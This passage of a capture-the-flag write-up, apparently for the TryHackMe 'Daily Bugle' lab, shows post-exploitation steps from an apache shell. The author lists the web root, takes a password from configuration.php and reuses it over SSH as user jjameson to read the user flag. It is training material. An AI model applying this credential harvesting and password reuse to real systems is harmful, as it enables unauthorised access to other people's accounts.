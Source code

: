 As we are sitting on an apache shell and we don’t have any access to jjameson’s directory. We can check `/var/www/html` .

And here we got a configuration file, which may be interesting for us.

```bash
sh-4.2$ cd /var/www/html
cd /var/www/html
sh-4.2$ ls -la
ls -la
total 64
drwxr-xr-x. 17 apache apache  4096 Dec 14  2019 .
drwxr-xr-x.  4 root   root      33 Dec 14  2019 ..
-rwxr-xr-x.  1 apache apache 18092 Apr 25  2017 LICENSE.txt
-rwxr-xr-x.  1 apache apache  4494 Apr 25  2017 README.txt
drwxr-xr-x. 11 apache apache   159 Apr 25  2017 administrator
drwxr-xr-x.  2 apache apache    44 Apr 25  2017 bin
drwxr-xr-x.  2 apache apache    24 Apr 25  2017 cache
drwxr-xr-x.  2 apache apache   119 Apr 25  2017 cli
drwxr-xr-x. 19 apache apache  4096 Apr 25  2017 components
-rw-r--r--   1 apache apache  1982 Dec 14  2019 configuration.php
-rwxr-xr-x.  1 apache apache  3005 Apr 25  2017 htaccess.txt
drwxr-xr-x.  5 apache apache   164 Dec 15  2019 images
drwxr-xr-x.  2 apache apache    64 Apr 25  2017 includes
-rwxr-xr-x.  1 apache apache  1420 Apr 25  2017 index.php
drwxr-xr-x.  4 apache apache    54 Apr 25  2017 language
drwxr-xr-x.  5 apache apache    70 Apr 25  2017 layouts
drwxr-xr-x. 11 apache apache   255 Apr 25  2017 libraries
drwxr-xr-x. 26 apache apache  4096 Apr 25  2017 media
drwxr-xr-x. 27 apache apache  4096 Apr 25  2017 modules
drwxr-xr-x. 16 apache apache   250 Apr 25  2017 plugins
-rwxr-xr-x.  1 apache apache   836 Apr 25  2017 robots.txt
drwxr-xr-x.  5 apache apache    68 Dec 15  2019 templates
drwxr-xr-x.  2 apache apache    24 Dec 15  2019 tmp
-rwxr-xr-x.  1 apache apache  1690 Apr 25  2017 web.config.txt
```

Let’s check it’s content:

<img width="1665" height="595" alt="image 11" src="https://github.com/user-attachments/assets/10628613-d745-428c-8870-d7e87649e348" />

And we got a password, maybe we can use it for jjameson’ account.

```bash
┌──(ghost㉿kali)-[~/tryhackme/daily-bugle]
└─$ ssh jjameson@10.10.174.189                                           
The authenticity of host '10.10.174.189 (10.10.174.189)' can't be established.
ED25519 key fingerprint is SHA256:Gvd5jH4bP7HwPyB+lGcqZ+NhGxa7MKX4wXeWBvcBbBY.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.174.189' (ED25519) to the list of known hosts.
jjameson@10.10.174.189's password: 
Last login: Mon Dec 16 05:14:55 2019 from netwars
[jjameson@dailybugle ~]$ ls -la
total 16
drwx------. 2 jjameson jjameson  99 Dec 15  2019 .
drwxr-xr-x. 3 root     root      22 Dec 14  2019 ..
lrwxrwxrwx  1 jjameson jjameson   9 Dec 14  2019 .bash_history -> /dev/null
-rw-r--r--. 1 jjameson jjameson  18 Aug  8  2019 .bash_logout
-rw-r--r--. 1 jjameson jjameson 193 Aug  8  2019 .bash_profile
-rw-r--r--. 1 jjameson jjameson 231 Aug  8  2019 .bashrc
-rw-rw-r--  1 jjameson jjameson  33 Dec 15  2019 user.txt
[jjameson@dailybugle ~]$ cat user.txt
27a260fe3.......REDACTED
```

---